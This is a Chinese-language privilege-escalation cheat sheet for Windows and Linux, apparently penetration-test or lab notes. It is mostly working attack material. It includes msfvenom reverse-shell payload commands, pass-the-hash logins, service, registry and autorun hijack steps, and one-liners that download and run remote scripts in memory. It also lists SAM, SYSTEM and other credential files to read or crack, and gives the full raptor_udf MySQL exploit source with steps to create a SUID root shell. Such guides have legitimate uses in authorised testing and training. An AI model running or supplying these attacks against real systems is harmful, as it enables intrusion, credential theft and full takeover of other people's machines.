




# 提权

> 每个目标都可以被认为是唯一的，但是还是有一些常见的升级方法。为了利用这些资源，我们将搜索配置错误的服务，对二进制文件或服务的文件权限限制不足，直接的内核漏洞，以高特权运行的易受攻击的软件，存储在本地文件上的敏感信息，在执行二进制文件之前始终提升特权的注册表设置，安装可能包含硬编码凭据的脚本以及许多其他脚本。

## 信息搜集

### 手动枚举

#### win

##### 捷径

###### 密码与自动登录凭证

可以在注册表中搜索包含单词“ password”的键和值：

```
reg query HKLM /f password /t REG_SZ /s
```

查询此特定密钥以查找管理员自动登录凭据：

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

在Kali上，使用winexe命令产生一个以admin特权运行的shell（用找到的口令更新密码）：

```
winexe -U 'admin%password' //10.10.236.11 cmd.exe
```

###### 临时保存的凭据

列出所有临时保存的凭据的账户：

```
cmdkey /list
```

在Kali上启动侦听器，并使用runas以及保存的管理员凭据来运行reverse.exe可执行文件：

```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

###### SAM文件破解

SAM和SYSTEM文件可用于提取用户密码哈希。该虚拟机已将SAM和SYSTEM文件的备份不安全地存储在 C：\ Windows \ Repair \目录中。

将SAM和SYSTEM文件传输到您的Kali VM：

在Kali上，samdump2只能dump，Windows 2k/NT/XP/Vista


如果强行使用samdump2则只会dump处理`31d6cfe0d16ae931b73c59d7e0c089c0`也就是空密码

克隆creddump7存储库，（KALI默认安装的版本已过时）并使用它从SAM和SYSTEM文件中转出哈希值：

```
git clone https://github.com/Neohapsis/creddump7.git
sudo apt install python-crypto
python2 /tools/creddump7/pwdump.py SYSTEM SAM
```


使用hashcat破解管理员NTLM哈希：

```
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```


您可以使用破解的密码通过winexe或RDP以管理员身份登录。

当然也可以通过hash传递进行登录，这里要完整hash`用户名%LM:NTLM`

```bash
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.5.7 cmd.exe
```

###### 计划任务提权

关联查看枚举计划任务

查看C：\ DevTools \ CleanUp.ps1脚本的内容：

```
type C:\DevTools\CleanUp.ps1
```

该脚本似乎每分钟都以SYSTEM身份运行。使用accesschk.exe，请注意，您可以写入此文件：

```
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

在Kali上启动侦听器，然后向C：\ DevTools \ CleanUp.ps1追加一行，该行将 运行您创建的reverse.exe可执行文件：

```
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

等待计划任务运行，这将触发反向Shell作为SYSTEM。

###### 图形化界面下的不安全的GUI程序

加入我们处在RDP会话或vnc等图形化界面下，可以利用程序打开文件时调出的导航栏的漏洞进行提权。

比如我们可以执行桌面上的“ AdminPaint”程序。运行后，打开命令提示符，执行命令可以注意到Paint正在以管理员权限运行

```
tasklist /V | findstr mspaint.exe
```


在“画图”中，单击“文件”，然后单击“打开”。在打开文件对话框中，单击导航输入：（注意必须是在导航栏输入，并且回车。而不是点击gui的打开按钮）

`file://c:/windows/system32/cmd.exe`

并单击回测Enter

生成具有管理员权限运行的命令提示符。

###### AlwaysInstallElevated 

首先，在Windows系统上，我们应该检查AlwaysInstallElevated 设置的状态。如果在HKEY_CURRENT_USER或HKEY_LOCAL_MACHINE中启用了此键（设置为1），则任何用户都可以以提升的特权运行Windows Installer程序包。我们可以使用reg查询来检查这些设置。如果启用此设置，我们可以制作一个MSI文件并运行它以提升特权


在注册表中查询AlwaysInstallElevated项：

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevatedreg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

请注意，两个键都设置为1（0x1）。

在Kali上，使用msfvenom生成反向外壳Windows Installer（reverse.msi）。 相应地更新LHOST IP地址：

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

将reverse.msi文件传输到Windows上的C：\ PrivEsc目录（使用以前的SMB服务器方法）。

在Kali上启动侦听器，然后运行安装程序以使用SYSTEM特权触发运行反向外壳程序：

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

###### 服务权限不安全

使用accesschk.exe来检查“ xxx”服务上“userA”帐户的权限：

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv userA xxx
```

请注意，“用户”帐户有权更改服务配置（SERVICE_CHANGE_CONFIG）。


查询服务，并注意它以SYSTEM特权（SERVICE_START_NAME）运行：

```
sc qc xxx
```


修改服务配置，并将BINARY_PATH_NAME（binpath）设置为您创建的rshell.exe可执行文件：

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.25.236 LPORT=1337 -f exe -o rshell.exe
```


```
sc config xxx binpath= "\"C:\PrivEsc\rshell.exe\""
```

在Kali上启动侦听器，然后启动服务以生成以SYSTEM特权运行的反向Shell：

```
net start xxx
```

###### 未使用引号的服务路径

当引用的服务路径未使用引号时，我们可以对其利用


路径没有引用，我们可以使用rshell文件替换掉Common

查询“ unquotedsvc” 服务，然后查询该服务是否具有SYSTEM特权（SERVICE_START_NAME），并且BINARY_PATH_NAME未引用并且包含空格。

```
sc qc unquotedsvc
```

使用accesschk.exe，请注意BUILTIN\Users组被允许写入`C:\Program Files\Unquoted Path Service\`目录：

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

将您创建的reverse.exe可执行文件复制 到此目录，并将其重命名为Common.exe：

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

在Kali上启动侦听器，然后启动服务以生成以SYSTEM特权运行的反向Shell：

```
net start unquotedsvc
```

###### 注册表可写

查询某项 服务，它以SYSTEM特权（SERVICE_START_NAME）运行。

```
sc qc regsvc
```


使用accesschk.exe，请注意这项服务服务的注册表项是 ，可由“ NT AUTHORITY \ INTERACTIVE”组（基本上是所有登录的用户）写入 的，服务的注册表项在注册表中的`HKLM\System\CurrentControlSet\Services\`

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```



覆盖ImagePath注册表项，以指向您创建的reverse.exe可执行文件：

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

在Kali上启动侦听器，然后启动服务以生成以SYSTEM特权运行的反向Shell：

```
net start regsvc
```

###### 服务主应用程序可写

查询“ filepermsvc” 服务，它以SYSTEM特权（SERVICE_START_NAME）运行。记录它的路径

```
sc qc filepermsvc
```


使用accesschk.exe，检查源文件，请注意每个人都可以写入服务二进制文件（BINARY_PATH_NAME）：

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```


复制您创建的reverse.exe可执行文件，并用它替换filepermservice.exe：

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

在Kali上启动侦听器，然后启动服务以生成以SYSTEM特权运行的反向Shell：

```
net start filepermsvc
```

###### 利用自启动程序

在注册表中查询“自动运行”可执行文件：

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```


使用accesschk.exe，检查这个程序的权限，请注意，每个人都可以写入其中一个AutoRun可执行文件：

```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```


复制您创建的reverse.exe可执行文件，并用它覆盖AutoRun可执行文件 ：

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

请注意，你可能需要重新启动目标技巧才能让自启动文件以system运行

###### 利用开始菜单的启动快捷方式漏洞

检查启动快捷方式的建立权限，everyone也行，当前用户也可以。


使用cscript，运行C：\ PrivEsc \ CreateShortcut.vbs 脚本，该脚本应在StartUp目录中为您的reverse.exe可执行文件创建新的快捷方式：

```
cscript C:\PrivEsc\CreateShortcut.vbs
```

在Kali上启动一个侦听器，然后使用RDP和先前提取的凭据来模拟管理员登录，实际情况中需要管理员登录后才能返回一个管理员shell给kali，这种方式时候在一些有管理员登录的情况下使用。


##### 当前用户


##### 发现其他用户

```powershell
C:\Windows\system32> net users
C:\Windows\system32> net user student
```


##### hostname


##### 系统信息

```powershell
C:\Windows\system32> systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```


##### 进程与服务


##### 网络信息


##### 防火墙规则


> 根据上面列出的两个防火墙规则，允许Microsoft Photos应用程序使用任何协议建立与任何IP地址之间的入站和出站连接。请记住，并非所有防火墙规则都有用，但是某些配置可能有助于我们扩大攻击面

##### 枚举计划任务

> 如果这些系统配置错误，或者用户创建的文件具有不安全的权限，我们可以修改这些文件，这些文件将由调度系统以高特权级别执行

我们可以使用schtasks命令在Windows上创建和查看计划的任务。`/query`显示任务，`/FO LIST`将输出格式设置为简单列表。我们也可以使用`/V`请求详细输出


##### 枚举当前进程

```powershell
C:\Windows\system32> tasklist /SVC
```


##### 枚举当前服务

```powershell
C:\Windows\system32> net start
```


##### 枚举安装的程序及版本

我们可以将wmic与product4 WMI类参数一起使用，后跟get，顾名思义，该参数用于检索特定的属性值。然后，我们可以选择我们感兴趣的属性，例如名称`name`，版本`version`和供应商`vendor`


类似地，更重要的是，通过查询Win32_QuickFixEngineering（qfe）WMI类，wmic也可用于列出系统范围的更新，有关已安装应用程序的信息可能对我们很有用。


##### 枚举可读/可写文件和目录

使用-u抑制错误，-w搜索写权限，以及-sto执行递归搜索。由于此工具非常有用，因此还值得探索其他选项。此例是查找program文件夹下的全局可写


powershell ：我们使用的主要cmdlet是`Get-Acl`，它将检索给定文件或目录的所有权限。但是，由于无法递归运行`Get-Acl`，因此我们还使用`Get-ChildItemcmdlet`首先枚举Program Files目录下的所有内容。这将有效地检索目标目录中的每个对象以及所有相关的访问权限。带`-match`的AccessToStringproperty将结果缩小为我们正在寻找的特定访问属性。在我们的例子中，我们正在搜索“所有人”组的成员可以修改的任何对象


##### 枚举未挂载的磁盘


##### 枚举设备驱动程序和内核模块

在Windows上，我们可以使用driverquery命令开始搜索。我们将提供`/v`用于详细输出，以及`/fo csv`以CSV格式请求输出。为了过滤输出，我们将在powershell中运行此命令。在PowerShell中，我们会将输出通过管道传输到ConvertFrom-Csv 以及Select-Object这将使我们能够选择特定的对象属性或对象集，包括显示名称，开始模式和路径

```powershell
C:\Windows\system32> DRIVERQUERY
```


虽然这产生了已加载驱动程序的列表，但我们必须采取另一步骤来请求每个已加载驱动程序的版本号。我们将使用Get-WmiObject获取Win32_PnPSignedDriver 的WMI实例，该实例提供有关驱动程序的数字签名信息。通过将输出传递给Select-Object，我们可以枚举特定属性，包括版本号

此外，我们可以通过将输出通过管道传递到Where-Object来基于驱动程序的名称来专门针对它们。


##### 操作系统

什么是操作系统和体系结构？是否缺少任何补丁？

```
systeminfo
wmic qfe
```

环境变量中有什么有趣的东西吗？中的域控制器`LOGONSERVER`？

```
set
Get-ChildItem Env: | ft Key,Value
```

还有其他连接的驱动器吗？

```
net use
wmic logicaldisk get caption,description,providername
Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root
```

##### 用户数

你是谁？

```
whoami
echo %USERNAME%
$env:UserName
```

任何有趣的用户权限？*注意：“状态”列并不意味着用户有权访问该特权。如果列出了特权，则该用户拥有它。*

```
whoami /priv
```

系统上有哪些用户？是否有未清除的旧用户个人资料？

```
net users
dir /b /ad "C:\Users\"
dir /b /ad "C:\Documents and Settings\" # Windows XP and below
Get-LocalUser | ft Name,Enabled,LastLogon
Get-ChildItem C:\Users -Force | select Name
```

还有其他人登录吗？

```
qwinsta
```

系统上有哪些组？

```
net localgroup
Get-LocalGroup | ft Name
```

管理员组中有用户吗？

```
net localgroup Administrators
Get-LocalGroupMember Administrators | ft Name, PrincipalSource
```

用户自动登录注册表中的任何内容？

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"
```

凭证管理器中有什么有趣的东西吗？

```
cmdkey /list
dir C:\Users\username\AppData\Local\Microsoft\Credentials\
dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

我们可以访问SAM和SYSTEM文件吗？

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

##### 程序，流程和服务

安装了什么软件？

```
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE
Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime

Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```

文件夹或文件权限是否弱？

程序文件夹中的每个人或用户的完整权限？

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 
```

修改程序文件夹中的每个人或用户的权限？

```
icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 

Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}} 
```

您也可以从Sysinternals上传accesschk来检查可写的文件夹和文件。

```
accesschk.exe -qwsu "Everyone" *
accesschk.exe -qwsu "Authenticated Users" *
accesschk.exe -qwsu "Users" *
```

系统上正在运行的进程/服务是什么？有没有公开的内部服务？如果是这样，我们可以打开它吗？*请参阅附录中的端口转发。*

```
tasklist /svc
tasklist /v
net start
sc query
```

*`Get-Process`可以`-IncludeUserName`选择查看流程所有者，但是您必须具有管理权限才能使用它。*

```
Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id
Get-Service
```

*此衬里返回没有管理员权限的流程所有者，如果所有者下的内容为空，则可能是作为SYSTEM，NETWORK SERVICE或LOCAL SERVICE运行的。*

```
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```

任何弱服务权限？我们可以重新配置任何东西吗？再次，上传accesschk。

```
accesschk.exe -uwcqv "Everyone" *
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "Users" *
```

是否有未报价的服务路径？

```
wmic service get name,displayname,pathname,startmode 2>nul |findstr /i "Auto" 2>nul |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

有哪些预定的任务？有没有实现自定义？

```
schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

启动时运行了什么？

```
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run'
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce'
Get-ItemProperty -Path 'Registry::HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run'
Get-ItemProperty -Path 'Registry::HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce'
Get-ChildItem "C:\Users\All Users\Start Menu\Programs\Startup"
Get-ChildItem "C:\Users\$env:USERNAME\Start Menu\Programs\Startup"
```

是否启用AlwaysInstallElevated？*我没有遇到这个问题，但是检查也没有什么坏处。*

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

##### 联网

连接了哪些网卡？是否有多个网络？

```
ipconfig /all
Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address
Get-DnsClientServerAddress -AddressFamily IPv4 | ft
```

我们有什么路线？

```
route print
Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex
```

ARP缓存中有内容吗？

```
arp -a
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State
```

是否有与其他主机的连接？

```
netstat -ano
```

主机文件中有内容吗？

```
C:\WINDOWS\System32\drivers\etc\hosts
```

防火墙是否打开？如果是这样，配置了什么？

```
netsh firewall show state
netsh firewall show config
netsh advfirewall firewall show rule name=all
netsh advfirewall export "firewall.txt"
```

还有其他有趣的界面配置吗？

```
netsh dump
```

有SNMP配置吗？

```
reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse
```

##### 有趣的文件和敏感信息

本节可能有点嘈杂，因此您可能希望将命令输出到txt文件中，以根据需要进行查看和解析。

注册表中是否有密码？

```
reg query HKCU /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s 
```

是否有尚未清除的sysprep或无人参与文件？

```
dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}
```

如果服务器是IIS Web服务器，那么inetpub中有什么？有隐藏目录吗？web.config文件？

```
dir /a C:\inetpub\
dir /s web.config
C:\Windows\System32\inetsrv\config\applicationHost.config
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

IIS日志中有什么？

```
C:\inetpub\logs\LogFiles\W3SVC1\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\W3SVC2\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\FTPSVC1\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\FTPSVC2\u_ex[YYMMDD].log
```

是否安装了XAMPP，Apache或PHP？是否有XAMPP，Apache或PHP配置文件？

```
dir /s php.ini httpd.conf httpd-xampp.conf my.ini my.cnf
Get-Childitem –Path C:\ -Include php.ini,httpd.conf,httpd-xampp.conf,my.ini,my.cnf -File -Recurse -ErrorAction SilentlyContinue
```

任何Apache网络日志？

```
dir /s access.log error.log
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```

有没有有趣的文件？可能在用户目录（桌面，文档等）内吗？

```
dir /s *pass* == *vnc* == *.config* 2>nul
Get-Childitem –Path C:\Users\ -Include *password*,*vnc*,*.config -File -Recurse -ErrorAction SilentlyContinue
```

文件中包含密码？

```
findstr /si password *.xml *.ini *.txt *.config 2>nul
Get-ChildItem C:\* -include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"
```

##### 附录

###### 枚举脚本

我创建了一个Powershell脚本，该脚本几乎可以自动执行以上所有操作。您可以[在这里查看](https://github.com/absolomb/WindowsEnum)。

###### 传输档案

在特权升级期间的某个时刻，您将需要将文件放入目标。以下是一些简单的方法。

PowerShell Cmdlet（Powershell 3.0及更高版本）

```
Invoke-WebRequest "https://server/filename" -OutFile "C:\Windows\Temp\filename"
```

PowerShell一线

```
(New-Object System.Net.WebClient).DownloadFile("https://server/filename", "C:\Windows\Temp\filename") 
```

内存中的PowerShell单行脚本执行

```
IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
```

带有代理的PowerShell

```
$browser = New-Object System.Net.WebClient;
$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString('https://server/script.ps1'));
```

PowerShell脚本

```
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://server/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

通过文本文件的非交互式FTP。*当您只有有限的命令执行时很有用。*

```
echo open 10.10.10.11 21> ftp.txt
echo USER username>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
		
ftp -v -n -s:ftp.txt
```

证书实用程序

```
certutil.exe -urlcache -split -f https://myserver/filename outputfilename
```

Certutil也可以用于base64编码/解码。

```
certutil.exe -encode inputFileName encodedOutputFileName
certutil.exe -decode encodedInputFileName decodedOutputFileName
```

从Windows 10 1803（2018年4月更新）`curl`开始，已实现该命令，该命令提供了另一种传输文件甚至在内存中执行文件的方法。*直接插入cmd将运行大多数内容，但是似乎您的脚本中除了常规命令之外还存在其他任何内容，例如循环，if语句等，它无法正确运行它们。*

```
curl http://server/file -o file
curl http://server/file.bat | cmd
```

并使用PowerShell

```
IEX(curl http://server/script.ps1);Invoke-Blah
```

###### 转发端口

这对于暴露通常由于防火墙设置而无法从计算机外部获得的内部服务很有用。

上载到`plink.exe`目标。

在攻击机上启动SSH。

例如，在目标运行中公开SMB：

```
plink.exe -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

从Windows 10 1803（2018年4月更新）开始，ssh客户端现在已包括在内并默认开启！因此，您现在可以立即使用ssh进行端口转发。

```
ssh -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

###### 本地文件包含列表

这不是一个详尽的列表，安装目录会有所不同，我只列出了常见的目录。

```
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
C:\Program Files\Apache Group\Apache\conf\httpd.conf
C:\Program Files\Apache Group\Apache\conf\logs\access.log
C:\Program Files\Apache Group\Apache\conf\logs\error.log
C:\Program Files\Apache Group\Apache2\conf\httpd.conf
C:\Program Files\Apache Group\Apache2\conf\logs\access.log
C:\Program Files\Apache Group\Apache2\conf\logs\error.log
C:\Program Files\FileZilla Server\FileZilla Server.xml
C:\Program Files\MySQL\my.cnf
C:\Program Files\MySQL\my.ini
C:\Program Files\MySQL\MySQL Server 5.0\my.cnf
C:\Program Files\MySQL\MySQL Server 5.0\my.ini
C:\Program Files\MySQL\MySQL Server 5.1\my.cnf
C:\Program Files\MySQL\MySQL Server 5.1\my.ini
C:\Program Files\MySQL\MySQL Server 5.5\my.cnf
C:\Program Files\MySQL\MySQL Server 5.5\my.ini
C:\Program Files\MySQL\MySQL Server 5.6\my.cnf
C:\Program Files\MySQL\MySQL Server 5.6\my.ini
C:\Program Files\MySQL\MySQL Server 5.7\my.cnf
C:\Program Files\MySQL\MySQL Server 5.7\my.ini
C:\Program Files\php\php.ini
C:\Users\Administrator\NTUser.dat
C:\Windows\debug\NetSetup.LOG
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattended.xml
C:\Windows\php.ini
C:\Windows\repair\SAM
C:\Windows\repair\system
C:\Windows\System32\config\AppEvent.evt
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\RegBack\system
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SecEvent.evt
C:\Windows\System32\config\SysEvent.evt
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\drivers\etc\hosts
C:\Windows\System32\winevt\Logs\Application.evtx
C:\Windows\System32\winevt\Logs\Security.evtx
C:\Windows\System32\winevt\Logs\System.evtx
C:\Windows\win.ini 
C:\xampp\apache\conf\extra\httpd-xampp.conf
C:\xampp\apache\conf\httpd.conf
C:\xampp\apache\logs\access.log
C:\xampp\apache\logs\error.log
C:\xampp\FileZillaFTP\FileZilla Server.xml
C:\xampp\MercuryMail\MERCURY.INI
C:\xampp\mysql\bin\my.ini
C:\xampp\php\php.ini
C:\xampp\security\webdav.htpasswd
C:\xampp\sendmail\sendmail.ini
C:\xampp\tomcat\conf\server.xml
```

#### linux

##### 捷径

通常，运行可执行文件时，它将继承运行该文件的用户的权限。但是，如果设置了SUID权限，则二进制文件将在文件所有者的权限下运行。这意味着，如果二进制文件的SUID位置1，并且文件由root拥有，则任何本地用户都将能够以提升的特权执行该二进制文件

我们可以使用find命令来搜索带有SUID标记的二进制文件。在这种情况下，我们将从根目录（/）开始搜索，查找设置了SUID位（-perm -u = s）的文件`-f`，并丢弃所有错误消息`2> / dev /null`


在这种情况下，该命令找到了几个SUID二进制文件。对SUIDbinaries的利用将基于多种因素而有所不同。例如，如果/ bin / cp（copycommand）是SUID，则可以复制和覆盖/ etc / passwd等敏感文件

###### mysql服务提权(mysql root)

使用以下命令编译raptor_udf2.c利用代码：

http://www.0xdeadbeef.info/exploits/raptor_udf.c

```c
#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
	unsigned int		arg_count;	// number of arguments
	enum Item_result	*arg_type;	// pointer to item_result
	char 			**args;		// pointer to arguments
	unsigned long		*lengths;	// length of string args
	char			*maybe_null;	// 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
	char			maybe_null;	// 1 if func can return NULL
	unsigned int		decimals;	// for real functions
	unsigned long 		max_length;	// for string functions
	char			*ptr;		// free ptr for func data
	char			const_item;	// 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
	if (args->arg_count != 1)
		return(0);

	system(args->args[0]);

	return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
	return(0);
}

// milw0rm.com [2006-02-20]
```


```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

以root用户身份使用空白密码连接到MySQL服务：

```
mysql -u root
```

在MySQL Shell上执行以下命令，以使用我们的已编译漏洞利用程序创建用户定义函数（UDF）“ do_system”：

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```


使用该功能将/ bin / bash复制到/ tmp / rootbash并设置SUID权限：

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

退出MySQL Shell（键入**exit** 或**\ q** 并按**Enter**），然后使用-p运行/ tmp / rootbash可执行文件，以获得具有root特权的shell：


